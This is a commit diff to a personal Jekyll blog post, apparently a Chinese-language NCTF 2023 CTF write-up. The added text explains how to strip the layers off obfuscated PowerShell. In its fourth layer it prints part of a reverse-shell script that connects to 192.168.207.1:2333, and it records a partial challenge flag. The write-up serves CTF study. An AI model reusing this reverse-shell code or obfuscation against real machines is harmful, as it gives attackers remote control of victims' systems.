

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-12-26-NCTF 2023 个人部分题解.md, in a window 1280 px wide and 900 px high, scrolled down 2820 px. Shown: the whole window, without its empty margins (160-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2023-12-26-NCTF 2023 个人部分题解.md

````diff
--- a/_posts/2023-12-26-NCTF 2023 个人部分题解.md
+++ b/_posts/2023-12-26-NCTF 2023 个人部分题解.md
@@ -98,7 +98,7 @@
 ) -JOIN ''
 | & ( $EnV:COmspEc[4,15,25]-jOIN'')
 ```
-这回我们逐个剥除慢慢试. 不难发现，首先在最外层加个()后，再去掉```| & ( $EnV:COmspEc[4,15,25]-jOIN'')```，最前面再加个echo就是进入第三层的答案
+这层我们逐个剥除慢慢试. 不难发现，首先在最外层加个()后，再去掉```| & ( $EnV:COmspEc[4,15,25]-jOIN'')```，最前面再加个echo就是进入第三层的答案
 得到进入第三层的代码是:
 ```powershell
 echo ((
@@ -114,5 +114,30 @@
   [runtIme.INTeRopSeRviCES.mARShAl]::seCUResTrInGTObsTR( $('密文' | conVeRtto-SEcurEsTrIng -key  (143..112)) )
 )))
 ```
+这层虽然看起来很抽象，但是仔细看代码还是不难懂. 把前面```.(([STRINg]$VeRbOSEPrefEReNcE)[1,3]+'X'-jOIN'')```这个执行的部分删掉，保留后面解密的代码就行了
+得到进入第四层的代码是:
+```powershell
+echo (([rUNtiME.INTERoPsERvIceS.MaRshal]::PTRtOstrinGBsTr(
+  [runtIme.INTeRopSeRviCES.mARShAl]::seCUResTrInGTObsTR( $('密文' | conVeRtto-SEcurEsTrIng -key  (143..112)) )
+)))
+```
+
+#### [](#header-4)第四层:
+```powershell
+$socket = new-object System.Net.Sockets.TcpClient('192.168.207.1', 2333);
+if ($socket -eq $null) { exit 1 }
+$stream = $socket.GetStream();
+$writer = new-object System.IO.StreamWriter($stream);
+$buffer = new-object System.Byte[] 1024;
+$encoding = new-object System.Text.AsciiEncoding;
+$ffllaagg = "NCTF{5945cf0b-fdd6-4b7b";
+do {
+    $writer.Flush();
+    $read = $null;
+    $res = ""
+  ...省略代码...
+```
+很明显，前半部分flag已经出来了. 这里不做再多解释
+NCTF{5945cf0b-fdd6-4b7b
 
 以后再更新
````
